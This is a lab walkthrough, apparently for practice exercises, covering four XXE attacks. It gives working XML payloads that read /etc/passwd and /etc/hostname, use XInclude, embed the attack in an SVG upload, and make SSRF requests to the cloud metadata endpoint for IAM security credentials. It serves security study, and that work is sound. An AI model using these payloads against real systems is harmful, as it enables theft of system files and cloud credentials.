## Lab: Exploiting XXE using external entities to retrieve files

We are in home page



Then click view details of any product



-> Check stock

We open burpsuite to view request



-> XML, so we inject

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```



## Lab: Exploiting XXE to perform SSRF attacks


We add external entity

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```

and replace productId with `&xxe;`



and result



we change external entity

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/"> ]>
```



Continue, and external entity:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data"> ]>
```



## Lab: Exploiting XInclude to retrieve files



Set value of productId:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## Lab: Exploiting XXE via image file upload

We upload a svg image



Then we create a svg file:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```



